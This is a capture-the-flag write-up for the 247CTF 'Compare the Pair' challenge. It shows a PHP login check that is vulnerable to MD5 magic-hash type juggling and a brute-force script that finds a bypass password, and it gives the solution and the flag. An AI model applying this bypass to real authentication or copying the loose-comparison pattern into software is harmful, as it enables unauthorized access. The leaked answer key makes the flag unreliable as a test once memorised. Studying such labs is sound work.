

# COMPARE THE PAIR  



We are given a minimal webpage built with PHP. We are required to submit a password, and if the MD5 hash matches the hardcoded `$password_hash`, we get the flag.  

We notice that the `$password_hash` is in scientific notation, and a loose comparison is used to compare teh MD5 hashes, which means type juggling is possible.  

```php
<?php
  require_once('flag.php');
  $password_hash = "0e902564435691274142490923013038";
  $salt = "f789bbc328a3d1a3";
  if(isset($_GET['password']) && md5($salt . $_GET['password']) == $password_hash){
    echo $flag;
  }
  echo highlight_file(__FILE__, true);
?>
```

To bypass the check, we just need to find a password that when added with the salt, will generate an MD5 hash that is in scientific notation as well.  

We can write a simple bruteforce script to achieve this, which will find the password `1441592755`, which generates the hash `0e779784802627220929013433060900`.  

```php
<?php
$salt = 'f789bbc328a3d1a3';

for($i=1424869663; $i < 1835970773; $i++ ){
    echo $i . '/' . 1835970773 . "\n";

    $hash = md5($salt . $i);
    if (preg_match('/^0e\d+$/', $hash)) {
        echo "FOUND: $i\n";
        echo "HASH: $hash\n";
        break;
    }
}
?>
```

We can then pass in our payload into the `password` parameter, which will then get the webpage to display the flag.  

Flag: `247CTF{76fbce3909b3129536bb396fea3a9879}`